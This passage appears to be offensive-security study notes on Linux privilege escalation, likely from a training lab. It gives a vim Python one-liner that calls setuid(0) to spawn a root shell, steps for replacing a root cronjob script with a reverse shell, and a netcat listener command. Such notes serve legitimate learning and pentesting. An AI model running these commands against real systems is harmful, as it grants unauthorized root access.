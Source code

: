 ***

* Go to binarie location and execute payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cd /home/karen/vim
</strong>./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
#This will give you a root shell
</code></pre>

***



## <mark style="color:purple;">Abusing existing cronjobs</mark>

* Verify executables set as cronjobs

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>cat /etc/crontab
</strong>#Example results
* * * * * root /home/user/file.sh
</code></pre>

{% hint style="info" %}
`file.sh` is an arbitrary name used as example, can be any other bash file or executable
{% endhint %}

***

* Go to file location and change the content to get a reverse shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
cd /home/user
nano file.sh    # The content will be replaced with a reverse shell script
```
{% endcode %}

{% hint style="info" %}
To see the script of the reverse shell you can go[ here](../../scripting/reverse-shell.md)
{% endhint %}

***

* Create a listening port with netcat to receive the shell

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>nc -nlvp $port
</strong>#You will recieve a root shell
</code></pre>

{% hint style="info" %}
`$port` is the port specified in the reverse shell script
{% endhint %}

***
